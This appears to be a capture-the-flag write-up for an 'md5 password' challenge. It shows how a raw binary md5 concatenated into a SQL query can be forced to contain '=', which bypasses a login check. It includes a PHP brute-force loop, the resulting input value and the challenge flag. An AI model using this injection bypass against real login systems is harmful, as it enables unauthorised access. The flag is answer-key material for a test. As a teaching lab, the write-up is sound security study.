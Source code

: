# md5 password

## Problem
  md5('value', true);

## Solution
  Let's see the source. We can find that the most important part is
  ```mysql_query("select * from admin_password where password='".md5($ps,true)."'")```
  It concatenates query with **binary mode** md5. The binary mode md5 can make whatever output you want.
  And, in sql, if the condition is ```whatever='foo'='bar'```, it's considered as true.
  So what we'll do is to generate a string with binary mode md5 whose output contains ```'='```. For this, I simply coded for burte force.
  ```
  <?php

  $i = 0;
  while (strpos(md5(strval($i), true), "'='") === false) {
    $i ++;
  }

  echo $i;

  ```

  It gave me 1839431.

## Flag
  8c1402ffce6bcb6b019b66443f9a8d0f1fcf8906

